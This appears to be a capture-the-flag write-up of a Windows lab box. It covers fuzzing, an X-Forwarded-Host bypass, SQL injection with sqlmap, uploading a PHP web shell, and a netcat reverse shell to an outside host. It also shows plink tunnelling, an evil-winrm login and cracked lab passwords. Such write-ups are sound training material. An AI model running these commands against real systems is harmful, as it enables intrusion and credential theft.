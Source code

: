There are 3 open ports:

![Screenshot](images/Screenshot_1.png)


We will fuzz the web server:

![Screenshot](images/Screenshot_2.png)

![Screenshot](images/Screenshot_3.png)

Accessing the admin page states we are not going through a proxy:

![Screenshot](images/Screenshot_4.png)

So we can try to use the X-Forwarded-Host header:

![Screenshot](images/Screenshot_5.png)

We can see the internal IP is revealed in the index page code:

![Screenshot](images/Screenshot_6.png)

And changing to that IP:

![Screenshot](images/Screenshot_7.png)

And so, we can access the admin page:

![Screenshot](images/Screenshot_8.png)

We test the search capability for SQL injections:

![Screenshot](images/Screenshot_9.png)

It produces this error:

![Screenshot](images/Screenshot_10.png)

Let us capture a request using Burp:

![Screenshot](images/Screenshot_11.png)

And test it using the “-r” option of sqlmap:

```
sqlmap --level 5 --risk 3 --dbms mysql -p "productName" -r req.txt
```

![Screenshot](images/Screenshot_12.png)

Note for the future: The request must be similar to this, with only one space between the headers and the data sent:

![Screenshot](images/Screenshot_13.png)

It returns some hashes and even cracks one of them:

![Screenshot](images/Screenshot_14.png)

And we can crack another in Crackstation:

![Screenshot](images/Screenshot_15.png)

So the hashes are:

- hector - *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D (l33th4x0rhector)

- manager -  *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA (l3tm3!n)

- root - *0A4A5CAD344718DC418035A1F4D292BA603134D8 (???)


Then we will grab a PHP shell:

![Screenshot](images/Screenshot_16.png)

And we will upload the file:

```
sqlmap --dbms mysql -p "productName" --file-write rrrshell.php --file-dest "C:\inetpub\wwwroot\rrrshell.php" -r req.txt
```

![Screenshot](images/Screenshot_17.png)


We get remote code execution:

![Screenshot](images/Screenshot_18.png)

Reverse shell:

```
\\10.10.15.19\RIC\nc.exe 10.10.15.19 8888 -e cmd
```

![Screenshot](images/Screenshot_19.png)


![Screenshot](images/Screenshot_20.png)

We will list the services running, which include Winrm:

![Screenshot](images/Screenshot_21.png)


After unsuccessfully trying to execute a Meterpreter binary, I tried to use Plink (mi primerita vez):

```
plink.exe -R 5985:127.0.0.1:5985 10.10.15.19
```
![Screenshot](images/Screenshot_22.png)

We can see there is a new service in our Kali machine:

![Screenshot](images/Screenshot_23.png)

Now we can access as Hector and grab the user.txt flag:

```
./evil-winrm.rb -i 127.0.0.1 -u Hector -p "l33th4x0rhector"
```

![Screenshot](images/Screenshot_24.png)



And regarding the root flag... To be honest, I found it in a leak in pastebin D:

![dont sue me please!](https://media1.giphy.com/media/l2Je2rsN4y2iANLdC/giphy.gif?cid=ecf05e47730942c93d49001f72fd9dd5535faec4f26c0db3&rid=giphy.gif)

So this is just a half-writeup! It was a great box even though I could not find a way to escalate privileges. Sorry and see you next time!

![byeee](https://media0.giphy.com/media/l1J3CbFgn5o7DGRuE/giphy.gif?cid=ecf05e476d2c2b600e7300609c4b4a26347335ce9791a2f9&rid=giphy.gif)
